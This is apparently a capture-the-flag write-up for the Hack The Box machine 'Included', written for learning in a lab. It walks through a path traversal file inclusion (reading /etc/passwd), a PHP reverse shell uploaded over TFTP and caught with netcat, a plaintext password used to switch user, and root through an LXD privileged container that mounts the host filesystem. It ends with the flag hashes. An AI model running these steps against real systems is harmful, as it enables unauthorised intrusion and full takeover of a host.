

# Hack The Box | Included
###### Writeup by. Jessi

## Enumeration
### Nmap Scan
Begin with an nmap scan against the target.  
**Target:** 10.10.10.55  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Included]
└─$ nmap -sC -sV 10.10.10.55
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 15:53 EST
Nmap scan report for 10.10.10.55
Host is up (0.027s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.10.10.55/?file=index.php

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.86 seconds
~~~
The only port open in the TCP scan is 80. So I'll run a UDP scan as well.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Included]
└─$ nmap -sU 10.10.10.55    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 15:54 EST
Nmap scan report for 10.10.10.55
Host is up (0.026s latency).
Not shown: 999 closed ports
PORT   STATE         SERVICE
69/udp open|filtered tftp

Nmap done: 1 IP address (1 host up) scanned in 1085.55 seconds
~~~
### Open Ports/Services
80/tcp - HTTP  
69/udp - TFTP  
### HTTP
Browsing to http://10.10.10.55/ brings me to a webpage.  
  
### TFTP
I can connect via TFTP and confirm we can upload files.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Included]
└─$ echo 1 > test.txt                                  
                                                                                         
┌──(jessi㉿teatimesec)-[~/HTB/Included]
└─$ tftp 10.10.10.55    
tftp> put test.txt
Sent 3 bytes in 0.0 seconds
~~~
### LFI
Since the URL of the site loads as http://10.10.10.55/?file=index.php I decided to check if it's vulnerable to **LFI**(Local File Inclusion). I can test by browsing to http://10.10.10.55/?file=../../../../etc/passwd.  
  
It works! This returns the passwd contents of the server.  
## Foothold
### LFI + TFTP
I can combine the LFI vulnerability with our ability to upload files via TFTP. I'll upload a PHP reverse shell and execute it. This works because of the inclusion of the PHP code by the vulnerable page, resulting in its execution. I copy over the PHP Reverse Shell in our webshells directory and modify it to point to our IP and netcat listening port. I'll save it as [rev.php](rev.php).  After creation, I upload it from my TFTP instance **put rev.php**.  
### Execute the reverse shell
Now I'll startup my netcat listener on port 4444 and execute the shell by browsing to http://10.10.10.55/?file=../../../../var/lib/tftpboot/rev.php  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Included]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.55] 55998
Linux included 4.15.0-88-generic #88-Ubuntu SMP Tue Feb 11 20:11:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 21:37:06 up 1 day, 21:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
~~~
## Lateral Movement
### TTY Shell
Before anything else, I'll upgrade my shell to TTY and switch users to mike whom we compromised in a previous box.  
~~~Bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@included:/$ su mike
su mike
Password: Sheffield19

mike@included:/$ 
~~~
From here I can go ahead and obtain the user.txt flag in /home/mike/. Now that I'm logged in as mike, I decide to check their groups and permissions.  
~~~Bash
mike@included:~$ groups
groups
mike lxd
mike@included:~$ sudo -l
sudo -l
[sudo] password for mike: Sheffield19

Sorry, user mike may not run sudo on included.
~~~
No sudo permissions, but mike is part of the LXD group. The LXD group is a high-priv group that can be used to escalate to root.  
## PrivEsc
### LXD Group
To leverage the group membership, I have to use the lxd-alpine-builder tool and create an alpine image that we can upload to the target. The tool I used is https://github.com/saghul/lxd-alpine-builder.git.  
~~~Bash
──(jessi㉿teatimesec)-[~/HTB/Included/lxd-alpine-builder]
└─$ ./build-alpine    
Determining the latest release... v3.12
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
Downloading alpine-mirrors-3.5.10-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.2-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading apk-tools-static-2.10.5-r1.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
alpine-devel@lists.alpinelinux.org-4a6a0840.rsa.pub: OK
Verified OK
Selecting mirror http://mirrors.dotsrc.org/alpine/v3.12/main
fetch http://mirrors.dotsrc.org/alpine/v3.12/main/x86_64/APKINDEX.tar.gz
(1/19) Installing musl (1.1.24-r10)
(2/19) Installing busybox (1.31.1-r19)
Executing busybox-1.31.1-r19.post-install
(3/19) Installing alpine-baselayout (3.2.0-r7)
Executing alpine-baselayout-3.2.0-r7.pre-install
Executing alpine-baselayout-3.2.0-r7.post-install
(4/19) Installing openrc (0.42.1-r11)
Executing openrc-0.42.1-r11.post-install
(5/19) Installing alpine-conf (3.9.0-r1)
(6/19) Installing libcrypto1.1 (1.1.1i-r0)
(7/19) Installing libssl1.1 (1.1.1i-r0)
(8/19) Installing ca-certificates-bundle (20191127-r4)
(9/19) Installing libtls-standalone (2.9.1-r1)
(10/19) Installing ssl_client (1.31.1-r19)
(11/19) Installing zlib (1.2.11-r3)
(12/19) Installing apk-tools (2.10.5-r1)
(13/19) Installing busybox-suid (1.31.1-r19)
(14/19) Installing busybox-initscripts (3.2-r2)
Executing busybox-initscripts-3.2-r2.post-install
(15/19) Installing scanelf (1.2.6-r0)
(16/19) Installing musl-utils (1.1.24-r10)
(17/19) Installing libc-utils (0.7.2-r3)
(18/19) Installing alpine-keys (2.2-r0)
(19/19) Installing alpine-base (3.12.3-r0)
Executing busybox-1.31.1-r19.trigger
OK: 8 MiB in 19 packages
~~~
And now to transfer it to the target, I can use python's http.server with wget after making note of the tar.gz file created.   
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Included/lxd-alpine-builder]
└─$ python3 -m http.server 8888                                                 
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
~~~
On the target.  
~~~Bash
mike@included:~$ wget http://10.10.14.30:8888/alpine-v3.12-x86_64-20210110_1642.tar.gz
<14.30:8888/alpine-v3.12-x86_64-20210110_1642.tar.gz
--2021-01-10 21:54:14--  http://10.10.14.30:8888/alpine-v3.12-x86_64-20210110_1642.tar.gz
Connecting to 10.10.14.30:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3183545 (3.0M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20210110_1642.tar.gz’

alpine-v3.12-x86_64 100%[===================>]   3.04M  10.0MB/s    in 0.3s    

2021-01-10 21:54:15 (10.0 MB/s) - ‘alpine-v3.12-x86_64-20210110_1642.tar.gz’ saved [3183545/3183545]
~~~
I moved it over to /tmp with the mv command.  
### Escalate to root
With these commands, I can escalate to root.  
~~~Bash
mike@included:/tmp$ lxc image import ./alpine-v3.12-x86_64-20210110_1642.tar.gz --alias rootimage
<v3.12-x86_64-20210110_1642.tar.gz --alias rootimage
mike@included:/tmp$ lxc init rootimage ignite -c security.privileged=true
lxc init rootimage ignite -c security.privileged=true
Creating ignite
~~~
Those commands will import the image and create a privileged container with it. Next, I'll mount the host file system to /mnt/root on the container.  
~~~Bash
mike@included:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true 
<ydevice disk source=/ path=/mnt/root recursive=true
~~~
And finally, I can start the container and execute a root shell.  
~~~Bash
mike@included:/tmp$ lxc start ignite
lxc start ignite
mike@included:/tmp$ lxc exec ignite /bin/sh 
lxc exec ignite /bin/sh
~ # ^[[34;5Rwhoami
whoami
root
~~~
From here I can capture the root.txt flag in /root.  
##### user.txt
Located in /home/mike.  
**a56ef91d70cfbf2cdb8f454c006935a1**  
##### root.txt
Located in /root.  
**c693d9c7499d9f572ee375d4c14c7bcf**
